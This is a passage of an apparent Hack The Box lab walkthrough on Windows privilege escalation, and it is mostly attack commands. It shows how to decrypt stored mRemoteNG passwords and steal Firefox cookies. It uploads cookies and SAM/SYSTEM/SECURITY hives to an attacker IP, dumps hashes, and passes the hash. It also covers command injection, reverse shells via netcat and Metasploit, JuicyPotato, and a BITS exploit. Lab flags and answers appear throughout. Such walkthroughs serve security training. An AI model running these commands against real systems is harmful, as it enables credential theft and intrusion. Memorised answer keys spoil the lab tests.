Uninstall\* | Select-Object DisplayName, DisplayVersion,
InstallLocation

$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -
Property DisplayName -Unique | Format-Table -AutoSize
To enumerate the list of applications from the registry, and display the results,
one result immediately catches the eye (marked red arrow):

The 'mRemoteNG' -  mRemoteNG is a fork of mRemote: an open source,
tabbed, multi-protocol, remote connections manager for Windows.
mRemoteNG adds bug fixes and new features to mRemote and allows you to
view all of your remote connections in a simple yet powerful tabbed interface.


*_Figure 82.1 — Lab execution and output verification (Page 82)_*


### On terminal, we run the command

> **Lab Question (Page 83)**: Find the configuration file for the application you identify and attempt to obtain the credentials for the user Grace. What is the password for the local account, Grace?
>
> **Flag / Answer**: `Princess01!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first we will need to find the configuration file, we can use the same
approach we did with 'bob_adm' earlier in this module, this time with grace,
and for the path '"C:\Users\peter\AppData\Roaming\mRemoteNG"' (the path
of our 'mRemoteNG' application found at the a last question):
Get-ChildItem -Path
"C:\Users\peter\AppData\Roaming\mRemoteNG" -Recurse -
ErrorAction SilentlyContinue -Force | Select-String -Pattern
"grace" -ErrorAction SilentlyContinue | ForEach-Object { $_;
""; }


Or we can go directly to the configuration file of the application 'confCons.xml',
which we see on the result screenshot above.

Anyway there will several results, some of which will have the encrypted
password (along with the ingredients to decrypt it).
It doesn't matters which result we take, as long it belongs to 'grace'.
We will use the decryption tool mRemoteNG-Decrypt, we will download it to
the pwnbox attacking maching, unzip it, and get the python script in it.
On terminal, we run the command:
```bash
python3 mremoteng_decrypt.py -s
```
"s1LN9UqWy2QFv2aKvGF42YRfFvp0bytu04yyCuVQiI12MQvkYT3XcOxWaLT
z0aSNjRjr3Rilf6Xb4XQ="


*_Figure 83.1 — Lab execution and output verification (Page 83)_*


### results above

> **Lab Question (Page 84)**: Log in as Grace and find the cookies for the slacktestapp.com website. Use the cookie to log in into slacktestapp.com from a browser within the RDP session and submit the flag.
>
> **Flag / Answer**: `HTB{Stealing_Cookies_To_AccessWebSites}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets RDP login to Grace user with the obtained credentials from the
previous question 'Grace: Princess01!'.
Now, cookies are stored within the device – for firefox browser, we will use the
command:
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-
release\cookies.sqlite .
to copy the cookies from where their store in Firefox data storage files, to the
current directory ('.', in the upcoming screenshot it will be Gracse's Documents
folder, then we run 'ls' to confirm successful copy:


Now, we need to get the output file from the target windows machine to the
pwnbox for analysis, directly copy the file's content to clipboard and paste it in
nano editor of the pwnbox target file will not work.
We will need to transfer the file itself from the target windows machine to the
attacking pwnbox machine.
For the server, we will download to the pwnbox this crude python http server
that I made ('python -m http.server 8080' is made to deal with downloads, not
uploads).


*_Figure 84.1 — Lab execution and output verification (Page 84)_*


*_Figure 84.2 — Lab execution and output verification (Page 84)_*


### 'server.py' – lets run it

Get that python server script to the pwnbox machine, and we will call it
'server.py' – lets run it:
```bash
python3 server.py
```
the server will listen on port 8080:

(ignore the deprecation warning)

on powershell, to upload the file we run the sequence of commands:
$filePath = ".\cookies.sqlite"
$targetUrl = "http://10.10.15.241:8080/upload"

# Create a WebClient object
$webClient = New-Object System.Net.WebClient
$webClient.Headers.Add("filename",
[System.IO.Path]::GetFileName($filePath))

# Upload the file
$webClient.UploadFile($targetUrl, $filePath)

Write-Output "File uploaded successfully"
*The pwnbox attacker machine IP is already built in to the script, change it if
required. *:

There will be some numbers displayed (probably the amount of uploaded
bytes), when the upload is finished..


*_Figure 85.1 — Lab execution and output verification (Page 85)_*


*_Figure 85.2 — Lab execution and output verification (Page 85)_*


*_Figure 85.3 — Lab execution and output verification (Page 85)_*


### And on server terminal

#### Technical Methodology & Exploit Execution:

```bash
python3 cookieextractor.py --dbpath "cookies.sqlite" --host
```
slack --cookie d


The cookie is the long string (element at index 3, counting from 0 – the long
string of 'xoxd-……==').

Now that have the cookie value, lets open Firefox at the target machine, and go
to slacktestapp.com:


*_Figure 86.1 — Lab execution and output verification (Page 86)_*


*_Figure 86.2 — Lab execution and output verification (Page 86)_*


*_Figure 86.3 — Lab execution and output verification (Page 86)_*


*_Figure 86.4 — Lab execution and output verification (Page 86)_*


### 'Value' field, save

We are not logged in, on the top-right side of the browser there is a cookie
icon, click it, open the cookie name of 'd', and enter the cookie we got to the
'Value' field, save:

and refresh:


*_Figure 87.1 — Lab execution and output verification (Page 87)_*


*_Figure 87.2 — Lab execution and output verification (Page 87)_*


### Let's RDP to his user

> **Lab Question (Page 88)**: Log in as Jeff via RDP and find the password for the restic backups. Submit the password as the answer.
>
> **Flag / Answer**: `Superbackup!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

proceeding from where we left off:

We can obtain Jeff's credentials 'Jeff:Webmaster001!'
Let's RDP to his user:

Right on Desktop.. this file looks interesting:

We have the password!


*_Figure 88.1 — Lab execution and output verification (Page 88)_*


*_Figure 88.2 — Lab execution and output verification (Page 88)_*


*_Figure 88.3 — Lab execution and output verification (Page 88)_*


### powershell command

> **Lab Question (Page 89)**: Restore the directory containing the files needed to obtain the password hashes for local users. Submit the Administrator hash as the answer.
>
> **Flag / Answer**: `bac9dc5b7b4bec1d83e0e9c04b477f26`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off, we have the password for 'restic'
backup services in 'E:\restic', lets put it as enviorement variable with the
```bash
powershell command:
```
$env:RESTIC_PASSWORD = 'Superbackup!'


With this, every 'restic' operation we make on 'E:\restic' shall be accepted
without password prompt.

Now that we have that, lets list the repositories we have on the target
machine, we will use the command:
restic.exe -r E:\restic\ snapshots


5 snapshots, 3 of them belong to the path 'C:\Windows\System32\config' –
where important security files are located.
The last of which, is more updated than the others. Its ID is 'b2f5caa0' – lets
download it:
restic.exe -r E:\restic\ restore b2f5caa0 --target
C:\Restore


The repository was successfully restored, and it was uploaded up backup by the
Administrator which looks promising.


*_Figure 89.1 — Lab execution and output verification (Page 89)_*


*_Figure 89.2 — Lab execution and output verification (Page 89)_*


*_Figure 89.3 — Lab execution and output verification (Page 89)_*


### On 'C:\' – we now have 'Restore' folder

On 'C:\' – we now have 'Restore' folder:

Lets go in there, into 'C:\Restore\C\Windows\System32\config' – a snapshot of
'C:\Windows\System32\config', and among other we will see those files:

SAM, SECURITY , SYSTEM:
SAM:


SECURITY:


*_Figure 90.1 — Lab execution and output verification (Page 90)_*


*_Figure 90.2 — Lab execution and output verification (Page 90)_*


*_Figure 90.3 — Lab execution and output verification (Page 90)_*


*_Figure 90.4 — Lab execution and output verification (Page 90)_*


### SYSTEM

SYSTEM:


The SAM contains the encrypted hashes (along with other users data).
The SECURITY contains security audit and policies.
The SYSTEM contains the Boot Key (SYSKEY), which is used to encrypt and
decrypt various elements in the Windows Registry, including the password
hashes in the SAM file.

Together, they can be used to obtain the hashes. Lets upload them from the
target machine to the attacker pwnbox.
We will use the same crude python server in the pwnbox and the same
```bash
PowerShell upload script on the target machine we used to upload Graces's
```
cookies from the target machine to the attacking pwnbox machine:
$filePath = ".\<target-File>"
$targetUrl = "http://10.10.15.241:8080/upload"

# Create a WebClient object
$webClient = New-Object System.Net.WebClient
$webClient.Headers.Add("filename",
[System.IO.Path]::GetFileName($filePath))

# Upload the file
$webClient.UploadFile($targetUrl, $filePath)

Write-Output "File uploaded successfully"


*_Figure 91.1 — Lab execution and output verification (Page 91)_*


*_Figure 91.2 — Lab execution and output verification (Page 91)_*


### (status code 200)

#### Technical Methodology & Exploit Execution:

secretsdump.py -system SYSTEM -security SECURITY -sam SAM
local
and here are our hashes:


*_Figure 92.1 — Lab execution and output verification (Page 92)_*


*_Figure 92.2 — Lab execution and output verification (Page 92)_*


### 'WinRM' (windows remote management) service (port 5985)

> **Lab Question (Page 93)**: Optional. Use the hash with a Pass-The-Hash technique to log in as the Administrator. Mark DONE when complete.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use pash the hash with the tool 'evil-winrm' targeting the
'WinRM' (windows remote management) service (port 5985):
```bash
evil-winrm -i <target-IP> -u administrator -H
```
bac9dc5b7b4bec1d83e0e9c04b477f26
we will login and enter 'whoami' to establish proof of concept.


*_Figure 93.1 — Lab execution and output verification (Page 93)_*


*_Figure 93.2 — Lab execution and output verification (Page 93)_*


### Miscellaneous Techniques

> **Lab Question (Page 94)**: Using the techniques in this section, find the cleartext password for an account on the target host.
>
> **Flag / Answer**: `!QAZXSW@3edc`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the target machine with the provided
credentials.
Then -we open powershell and run the command:
Get-LocalUser
Very quickly we can observe the cleartext password of the user 'secsvc'


*_Figure 94.1 — Lab execution and output verification (Page 94)_*


### Windows Server

> **Lab Question (Page 95)**: Obtain a shell on the target host, enumerate the system and escalate privileges. Submit the contents of the flag.txt file on the Administrator Desktop.
>
> **Flag / Answer**: `L3gacy_st1ill_pr3valent!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will first try to connect with the usual RDP command:

It will not work, the windows server 2008 machine does not fits to handly the
newer TLS versions required for the RDP connection, we will have to perform a
slight modification to the RDP connection command:
```bash
xfreerdp /v:<Target IP> /u:<username> /p:<password> /sec:rdp
```
/dynamic-resolution
the '/sec:rdp' means we run the conection with more basic RDP connection
rather than more advanced TLS – while being less secure, it is more compatible
to older windows (like windows server 2008:


*_Figure 95.1 — Lab execution and output verification (Page 95)_*


*_Figure 95.2 — Lab execution and output verification (Page 95)_*


*_Figure 95.3 — Lab execution and output verification (Page 95)_*


### And we are connected – windows server 2008

And we are connected – windows server 2008:

This machine also has 'C:\Tools' – lets open it up:

We can observe the tool 'Sherlock' – a powershell script, used for enumeration
of missing patches for application and services, used for older versions such as
Windows server 2008:
'For an older OS like Windows Server 2008, we can use an enumeration script
like Sherlock to look for missing patches. We can also use something like Windows-Exploit-
Suggester, which takes the results of the systeminfo command as an input, and compares the
patch level of the host against the Microsoft vulnerability database to detect potential missing
patches on the target. If an exploit exists in the Metasploit framework for the given missing
patch, the tool will suggest it.'
Ok now that we know what it is – lets use it. Open powershell, cd the ways to
'C:\Tools'
```bash
cd C:\Tools
```


*_Figure 96.1 — Lab execution and output verification (Page 96)_*


*_Figure 96.2 — Lab execution and output verification (Page 96)_*


### We will be prompted for confirmation, enter 'Y' for accept

#### Technical Methodology & Exploit Execution:

Set-ExecutionPolicy bypass -Scope process
We will be prompted for confirmation, enter 'Y' for accept:


Now we can run the 'Sherlock' script – we will use the sequence of commands:
```bash
Import-Module .\Sherlock.ps1
```
Find-AllVulns


*_Figure 97.1 — Lab execution and output verification (Page 97)_*


*_Figure 97.2 — Lab execution and output verification (Page 97)_*


*_Figure 97.3 — Lab execution and output verification (Page 97)_*


### settings

There are several possible vulnerabilities, which their 'VulnStatus' is stated as
'Appear Vulnerable'.
In this write up we will go with the same vulnerability used by the section – the
second option appeared on the results – 'Task Scheduler .XML', which has this
MS10_092 Windows Task Scheduler '.XML' Privilege Escalation exploit for the
CVE-2010-3338 and CVE-2010-3888
Now this is how we will proceed – we will first use Metasploit 'Meterpreters's
'smb delivery' module  to initiate a reverse shell of the current user ('htb-
student'), that shell will run on 32bit process, we will migrate the shell to a
64bit process (basically allocating some of its resources for our shell purpose
'leeching' you may call it), then on the 64bit process we will use it to run our
```bash
exploit, open SYSTEM privileges second reverse shell.
```
Ok lets start with the first – ordinary (normal privileged) reverse shell – lets
open Metasploit with 'sudo msfconsole' (important, use sudo! As we will deal
with privileged ports) on our attacking pwnbox, and enter the following
settings:
```bash
use exploit/windows/smb/smb_delivery
set target DLL
set SRVHOST <attacker-IP>
set LHOST <attacker-IP>
```


We can also enter 'show options' to confirm everything is in order.
When ready, we enter:
```bash
exploit
```


*_Figure 98.1 — Lab execution and output verification (Page 98)_*


### Lets run the command on the target machine

#### Technical Methodology & Exploit Execution:

sessions -i 1
and then we will have a powershell terminal (i think this is powershell, so the
background-color of the commands will be sea-blue):
getuid
to get the current user:


*_Figure 99.1 — Lab execution and output verification (Page 99)_*


*_Figure 99.2 — Lab execution and output verification (Page 99)_*


*_Figure 99.3 — Lab execution and output verification (Page 99)_*


*_Figure 99.4 — Lab execution and output verification (Page 99)_*


### First lets see our current process ID

We are htb-student. We need to proceed to escalate our privileges, as planned
above.
We will do it by 'migrating' our shell from the current process it is running on –
to a 64bit process (which is required – else the exploit won't work).
First lets see our current process ID:
getpid


Its 2248.

Now lets see our running process:
ps


*
*


*_Figure 100.1 — Lab execution and output verification (Page 100)_*


*_Figure 100.2 — Lab execution and output verification (Page 100)_*


*_Figure 100.3 — Lab execution and output verification (Page 100)_*


### to performs the process migration

We will look on the processes whose Arch says x64 – in theory every process
which runs on 64bits should be suffice, but there are variable and success does
not guaranteed, either way we will go on 'conhost.exe' – PID 2776.
We will run
migrate 2776
to performs the process migration:

Now our shell is running on 64bit process, we can proceed from the exploit.
Now lets run 'background' to return to the Metasploit CLI (without closing our
session, that will be in the background):

And then on the CLI we run the following settings:
```bash
use windows/local/ms10_092_schelevator
set SESSION 1
set LHOST <attacker-IP>
set LPORT 4445
```


And when ready, we run
```bash
exploit
```


*_Figure 101.1 — Lab execution and output verification (Page 101)_*


*_Figure 101.2 — Lab execution and output verification (Page 101)_*


### Now as it is cmd terminal, we run the command

#### Technical Methodology & Exploit Execution:

type C:\Users\Administrator\Desktop\flag.txt


*Note – there are probably more exploits out there found on 'Sherlock' tools
that are exploitable, but for this writeup one method is enough. *


*_Figure 102.1 — Lab execution and output verification (Page 102)_*


*_Figure 102.2 — Lab execution and output verification (Page 102)_*


*_Figure 102.3 — Lab execution and output verification (Page 102)_*


*_Figure 102.4 — Lab execution and output verification (Page 102)_*


### Windows Desktop Versions

> **Lab Question (Page 103)**: Enumerate the target host and escalate privileges to SYSTEM. Submit the contents of the flag on the Administrator Desktop.
>
> **Flag / Answer**: `Cm0n_l3ts_upgRade_t0_win10!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP connect to the target machine (the usual command)
with the provided credentials:
Searching 'system' on search bar and open the system details:

We can very quickly observe that the target machine is Windows 7.
Also the cmd command
systeminfo
will do the job:

Well this machine also has 'C:\Tools':

And it has the same 'Sherlock' enumeration script for vulnerabilities, lets use it.
We run on powershell on the path the same sequence of commands we did on
the previous section to run sherlock:


*_Figure 103.1 — Lab execution and output verification (Page 103)_*


*_Figure 103.2 — Lab execution and output verification (Page 103)_*


*_Figure 103.3 — Lab execution and output verification (Page 103)_*


Set-ExecutionPolicy bypass -Scope process
```bash
Import-Module .\Sherlock.ps1
```
Find-AllVulns


*
*


*_Figure 104.1 — Lab execution and output verification (Page 104)_*


*_Figure 104.2 — Lab execution and output verification (Page 104)_*


### Lets use that, we run the commands

#### Technical Methodology & Exploit Execution:

type C:\Users\Administrator\Desktop\flag.txt


*we can also redirect the output to a file with the command
type C:\Users\Administrator\Desktop\flag.txt > flag.txt
for easier coping the flag's content*


*_Figure 105.1 — Lab execution and output verification (Page 105)_*


*_Figure 105.2 — Lab execution and output verification (Page 105)_*


*_Figure 105.3 — Lab execution and output verification (Page 105)_*


### Capstone: Skills Assessment

> **Lab Question (Page 106)**: Which two KBs are installed on the target system? (Answer format: 3210000&3210060)
>
> **Flag / Answer**: `3199986&3200970`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the first thing we will notice that there no provided credentials to the
target machine, it means no RDP login as initial step.
Lets nmap the target machine – we will use the command:
```bash
nmap 10.129.225.46 -sV -p- -Pn
```
*-sV – enhanced service inspection, -Pn – assume the host is up and running
and -p- means to scan all ports. *

Ok so our target is, as expected – a windows machine. we have RDP service on,
and http as well.
As the RDP requires credentials, lets try inspecting the http:
Lets open the browser and enter 'http://<target-IP>/':


*_Figure 106.1 — Lab execution and output verification (Page 106)_*


*_Figure 106.2 — Lab execution and output verification (Page 106)_*


### Lets test it with a simple localhost '127.0.0.1'

We get to this connection tester, where we are expected to enter IP
Lets test it with a simple localhost '127.0.0.1':

That's fine enough, 2 packets were sent, 2 received, 100% success rate.

Lets add the flag '-n 1' to send a single packet:

Success, 1 packet was sent.

It seems that the mechanism behinds the website takes out input and
concatenate it to the word ping so our user input of '127.0.0.1 -n 1' the server
does the concatenation of 'ping' + '127.0.0.1 -n 1' →  'ping 127.0.0.1 -n 1' and
runs the command in its systems.

We can easily abuse such a mechanism with a command injection – lets try this
input to check the theory '127.0.0.1 -n 1 && whoami' – the input will ping the
localhost once, then run 'whoami' and give us the user who runs the
commands within the target machine:

Success, it seems our user is 'defaultappool'.

Now that we had confirmed that we can run command injection, the next
command that we will run is:
127.0.0.1 -n 1 && wmic qfe list brief /format:table


*_Figure 107.1 — Lab execution and output verification (Page 107)_*


*_Figure 107.2 — Lab execution and output verification (Page 107)_*


*_Figure 107.3 — Lab execution and output verification (Page 107)_*


### brief /format:table' – here is a breakdown of the command


*_Figure 108.1 — Lab execution and output verification (Page 108)_*


*_Figure 108.2 — Lab execution and output verification (Page 108)_*


*_Figure 108.3 — Lab execution and output verification (Page 108)_*


### Here is more beautified format of the output

Now, those hotfixes are referred by Microsoft as 'Knowledge Base' – or KB. And
in our command we request the WMI for 'update codes' – about installed
updates (hotfixes) for Windows.
Now that we analyzed the command – lets run it and present the output:

We can see the answer we seek is '3199986&3200970'.
Here is more beautified format of the output:

We can observe that the output shows two installed updates on the system,
identified by their KB numbers (KB3199986 and KB3200970). Both were
installed by the system account (NT AUTHORITY\SYSTEM) on 11/21/2016. The
description field indicates the nature of the updates, with one being a general
update and the other a security update. Other fields like FixComments,
InstallDate, Name, ServicePackInEffect, and Status are either empty or not
provided in this output.


*_Figure 109.1 — Lab execution and output verification (Page 109)_*


*_Figure 109.2 — Lab execution and output verification (Page 109)_*


*_Figure 109.3 — Lab execution and output verification (Page 109)_*


### If you initiated a cmd reverse shell, please enter

> **Lab Question (Page 110)**: Find the password for the ldapadmin account somewhere on the system.
>
> **Flag / Answer**: `car3ful_st0rinG_cr3d$`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

**important – do the third question first to obtain system privileges,
as they will be required for the completion of this question.
From this point we assume that the third question was completed and we
proceed from where we were left from the third question**
Continuing From the SYSTEM shell obtained in the third question, we will need
PowerShell, if you initiated PowerShell reverse shell in the first place, very well.
If you initiated a cmd reverse shell, please enter:
powershell
to upgrade the shell from cmd to powershell:


We will need the 'Get-ChildItem' searcher (that's why powershell is required,
cmd does not supports that function), we will look for 'ldapadmin' within
'C:\Users' (the original user we obtained - 'defaultappool' (the service account)
does not has the necessary permissions to inspect that path as it is contains
data of other users, running the search with 'defaultappool' will find nothing,
that's why we need the SYSTEM account, and from that doing the third
question before the second question), either way this is the search command:


*_Figure 110.1 — Lab execution and output verification (Page 110)_*


### 'Administrator' folder

> **Lab Question (Page 111)**: Escalate privileges and submit the contents of the flag.txt file on the Administrator Desktop.
>
> **Flag / Answer**: `Ev3ry_sysadm1ns_n1ghtMare!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Continuing from this 'Connection Tester' we obtained at the end of
the first question, we will attempt to first gain normal reverse shell:
lets see if we can use this 'Connection Tester' to run a powershell command,
lets try:
127.0.0.1 -n 1 && powershell pwd


Ok we have our path 'C:\windows\system32\inetsrv' – we can run powershell
scripts.
Lets initiate a reverse shell – we will go revshell and generate windows
```bash
powershell #3 base64 payload – targeting our attacker pwnbox machine IP , and
```
port 4444:


*_Figure 111.1 — Lab execution and output verification (Page 111)_*


*_Figure 111.2 — Lab execution and output verification (Page 111)_*


### Lets initiate reverse shell listener

Lets initiate reverse shell listener:
```bash
nc -lnvp 4444
```


And enter our reverse shell payload to the 'Connection Tester':
127.0.0.1 -n 1 && powershell -e <base64 payload>
In the website there will be no visible output:

But we will get a shell (powershell), let's check our user again:

Ok it is the ordinary user, time to elevate the privileges.


*_Figure 112.1 — Lab execution and output verification (Page 112)_*


*_Figure 112.2 — Lab execution and output verification (Page 112)_*


*_Figure 112.3 — Lab execution and output verification (Page 112)_*


*_Figure 112.4 — Lab execution and output verification (Page 112)_*


*_Figure 112.5 — Lab execution and output verification (Page 112)_*


### Lets run

Lets run:
```bash
whoami /priv
```
to check our privielges:

We have 'SeImpersonatePrivilege', and its enabled. We encountered that
before in 'SeImpersonate and SeAssignPrimaryToken' section.
Last time we used 'PrintSpoofer' to elevate the privileges to SYSTEM, it will not
work this time (and soon we will see why), we will use instead another tool
mentioned in the section – 'JuicyPotato', we will also need 'nc64.exe' (same as
the nc.exe used in the last time), this time it is not provided for us in the target
machine, we will have to bring it with us from the attacking pwnbox.

Before we download the bring the tools to the target machine lets make a
'C:\Tools' in the target machine, and cd our way there:
mkdir C:\Tools
```bash
cd C:\Tools
```


*_Figure 113.1 — Lab execution and output verification (Page 113)_*


*_Figure 113.2 — Lab execution and output verification (Page 113)_*


### shown many times, so I will only give here the commands

#### Technical Methodology & Exploit Execution:

c:\Tools\JuicyPotato.exe -l 53375 -p
c:\windows\system32\cmd.exe -a "/c c:\Tools\nc.exe
10.10.15.241 4445 -e cmd.exe" -t * -c "{7A6D9C0A-1E7A-41B6-
82B4-C3F7A27BA381}"


*_Figure 114.1 — Lab execution and output verification (Page 114)_*


*_Figure 114.2 — Lab execution and output verification (Page 114)_*


### and we have a shell

#### Technical Methodology & Exploit Execution:

type C:\Users\Administrator\Desktop\flag.txt


Alternatively, we can initiate SYSTEM POWERSHELL reverse shell with the
command:
c:\Tools\JuicyPotato.exe -l 53375 -p
c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -a
"-c c:\Tools\nc.exe 10.10.15.241 4445 -e powershell.exe" -t
* -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"


*_Figure 115.1 — Lab execution and output verification (Page 115)_*


*_Figure 115.2 — Lab execution and output verification (Page 115)_*


*_Figure 115.3 — Lab execution and output verification (Page 115)_*


*_Figure 115.4 — Lab execution and output verification (Page 115)_*


### And we run

Now our shell is powershell, we confirm with 'whomi' that we are 'SYSTEM',
And we run:
C:\Users\Administrator\Desktop\flag.txt


Now, why the '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'? it is what is
known as 'CLSID'.
CLSID (Class Identifier) is a globally unique identifier that identifies a COM
(Component Object Model) class object. In the Windows operating system,
CLSIDs are used to uniquely identify software components, allowing them to be
referenced and instantiated within applications.

If we look for that CLSID in the github link:

We will notice our CLSID is associated with 'wpnservice' - Windows Push
Notification Service, which is exploitable by 'JuicyPotato' and
'SeImpersonatePrivilege'.
'PrintSpoofer' does not supports the use of CLSIDs, this is why unlike last time,
it would not have worked here.
*Note – all of the CLSID I checked which their user column says 'NT
AUTHORITY\SYSTEM' – work. but it does NOT necessarily guarantee that ALL of
them works. So in theory as long the column 'user' is SYSTEM, the CLSID should
work*


*_Figure 116.1 — Lab execution and output verification (Page 116)_*


*_Figure 116.2 — Lab execution and output verification (Page 116)_*


### symbolic links of each other

> **Lab Question (Page 117)**: After escalating privileges, locate a file named confidential.txt. Submit the contents of this file.
>
> **Flag / Answer**: `5e5a7dafa79d923de3340e146318c31a`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

on the SYSTEM reverse PowerShell – we run the search command:
Get-ChildItem -Path C:\ -Filter "confidential.txt" -Recurse
-Force -ErrorAction SilentlyContinue | Select-Object -
ExpandProperty FullName
In the output there will be several results, in the music folder, but all of them
are effectively the same file – that is because windows considers them as
symbolic links of each other:

Lets cat randomly one of the files (doesn't matter which one) – as they are the
same file and will all give the same content:
```bash
cat C:\Users\Administrator\Music\confidential.txt
```


*Do remember that if the path you take contains spaces, you need to wrap it
with quotation marks. *

**further explaination about the multiple results for the same file:

**


*_Figure 117.1 — Lab execution and output verification (Page 117)_*


*_Figure 117.2 — Lab execution and output verification (Page 117)_*


*_Figure 117.3 — Lab execution and output verification (Page 117)_*


### Capstone: Skills Assessment

> **Lab Question (Page 118)**: Find left behind cleartext credentials for the iamtheadministrator domain admin account.
>
> **Flag / Answer**: `Inl@n3fr3ight_sup3rAdm1n!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the target machine with the provided 'htb-
student' credentials.
Lets start by searching the machine for any file which contains the word
'iamtheadministrator' in it. We will use the command:
Get-ChildItem -Path C:\ -Recurse -ErrorAction
SilentlyContinue -Force | Select-String -Pattern
"iamtheadministrator" -ErrorAction SilentlyContinue |
Select-Object -ExpandProperty Path -Unique
The command will display all full path of the files in which the word
'iamtheadministrator' appears at least once in its content:

The first result is the powershell commands history (which of course will be
there as we enter the keyword in the command itself) – ignore it.
The result that we are looking for is 'C:\Windows\Panther\unattend.xml'
Lets
```bash
cat C:\Windows\Panther\unattend.xml
```
and see what we have:


*_Figure 118.1 — Lab execution and output verification (Page 118)_*


*_Figure 118.2 — Lab execution and output verification (Page 118)_*


### We can also run this script

> **Lab Question (Page 119)**: Escalate privileges to SYSTEM and submit the contents of the flag.txt file on the Administrator Desktop
>
> **Flag / Answer**: `el3vatEd_1nstall$_v3ry_r1sky`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets check our build version with the command:
[environment]::OSVersion.Version
The build is 18363:


*_Figure 119.1 — Lab execution and output verification (Page 119)_*


*_Figure 119.2 — Lab execution and output verification (Page 119)_*


### machine

It is more advanced than what we had in prior sections, so whatever worked
there might not work here.
After ruling our some credentials obtaining, vulnerable service and etc and etc,
I've checked some CVE's that might be applicable for built 18363, also known
as Windows 10 – sub-version 1909.
The CVE we will be using is CVE-2020-0787 – it based on Windows Background
Intelligent Transfer Service (BITS) improperly handles symbolic links.
its exploit can be downloaded from here, lets download it to the target
machine:

And save it in our user's home directory, and confirm download to the pwnbox
attacking machine:

Time to get the executable to the target's machine:
Before we initiate a server, we will create 'C:\Tools' on the target machine, and
open powershell there (we do not have built in tools in this target machine):
mkdir C:\Tools
```bash
cd C:\Tools
```


when we created 'C:\Tools', and established our powershell there – lets get the
executable:


*_Figure 120.1 — Lab execution and output verification (Page 120)_*


*_Figure 120.2 — Lab execution and output verification (Page 120)_*


*_Figure 120.3 — Lab execution and output verification (Page 120)_*


### confirm download on target's machine

```bash
python -m http.server 8080
```

```bash
iwr -uri
```
http://10.10.15.241:8080/BitsArbitraryFileMoveExploit.exe -
outfile BitsArbitraryFileMoveExploit.exe

confirm download on target's machine:


And we run the exploit:
.\BitsArbitraryFileMoveExploit.exe


When exploited – and system cmd will be launched, lets run 'whoami' to
confirm:

We are system. Lets get the flag from the Administrator's Desktop:
type C:\Users\Administrator\Desktop\flag.txt


*_Figure 121.1 — Lab execution and output verification (Page 121)_*


*_Figure 121.2 — Lab execution and output verification (Page 121)_*


*_Figure 121.3 — Lab execution and output verification (Page 121)_*


*_Figure 121.4 — Lab execution and output verification (Page 121)_*


### 'powershell'

> **Lab Question (Page 122)**: There is 1 disabled local admin user on this system with a weak password that may be used to access other systems in the network and is worth reporting to the client. After escalating privileges retrieve the NTLM hash for this user and crack it offline. Submit the cleartext password for this account.
>
> **Flag / Answer**: `password1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets upgrade our SYSTEM cmd to powershell (by entering
'powershell':

Then we run:
Get-LocalUser
To get the list of users on the machine, including their 'Enabled' status:


And we also run:
```bash
net localgroup Administrators
```
to get users who belong to the localgroup 'Administrator' and therefore they
are local admins:


*_Figure 122.1 — Lab execution and output verification (Page 122)_*


*_Figure 122.2 — Lab execution and output verification (Page 122)_*


*_Figure 122.3 — Lab execution and output verification (Page 122)_*


### system, and we will get the error

The only disabled user who is a local admin is 'aksadmin' – that is our target.
Ok now that we know our target user – we need to obtain the files: SAM,
SYSTEM, SECURITY , required for password extraction from
'C:\Windows\system32\config' – however this time we do not take a backup
version of them from somewhere arbitrary but the files themselves straight
from the source, so uploading the files directly from the source to the server
will not work, neither directly coping them to another folder.
We will be blocked because those files are constantly used by the operating
system, and we will get the error:

*or similar errors to this. *
We need to find another way to extract those files from
'C:\Windows\system32\config' – we will get them from the registry:
reg save HKLM\SAM C:\Tools\SAM
reg save HKLM\SECURITY C:\Tools\SECURITY
reg save HKLM\SYSEM C:\Tools\SYSTEM

however when attempting to run the commands from the SYSTEM shell:


So we will add ourselves (htb-student) to the Administrator group, re-log, and
open powershell as administrators.
```bash
net localgroup administrators htb-student /add
```


*_Figure 123.1 — Lab execution and output verification (Page 123)_*


*_Figure 123.2 — Lab execution and output verification (Page 123)_*


*_Figure 123.3 — Lab execution and output verification (Page 123)_*


### our user should be on the list

Ok now when we run
```bash
net localgroup Administrators
```
our user should be on the list:

Here it is.
Now we will restart the machine with
shutdown /l
and after the restart and re-login to our user - we can open powershell on
administrator:

Now, lets try to rerun the commands:
reg save HKLM\SAM C:\Tools\SAM
reg save HKLM\SECURITY C:\Tools\SECURITY
reg save HKLM\SYSTEM C:\Tools\SYSTEM


*_Figure 124.1 — Lab execution and output verification (Page 124)_*


*_Figure 124.2 — Lab execution and output verification (Page 124)_*


*_Figure 124.3 — Lab execution and output verification (Page 124)_*


### Lets check 'C:\Tools'


*_Figure 125.1 — Lab execution and output verification (Page 125)_*


### 'secretsdump' tool

```bash
python server.py
```
and for upload, on the target machine we run the powershell upload script 3
times replacing the <target-file> with SAM,SYSTEM,SECURITY .

Lets confirm upload to the attacking pwnbox for offline cracking:

Ok all the necessary files are in the pwnbox – lets extract the login dump with
'secretsdump' tool:
secretsdump.py -system SYSTEM -security SECURITY -sam SAM
local


And we got the login dump, including our target user – 'wksadmin' NTLM hash
Lets enter the hash to 'hash.txt' file:
touch hash.txt
```bash
echo 5835048ce94ad0564e29a924a03510ef > hash.txt
```


*_Figure 126.1 — Lab execution and output verification (Page 126)_*


*_Figure 126.2 — Lab execution and output verification (Page 126)_*


*_Figure 126.3 — Lab execution and output verification (Page 126)_*


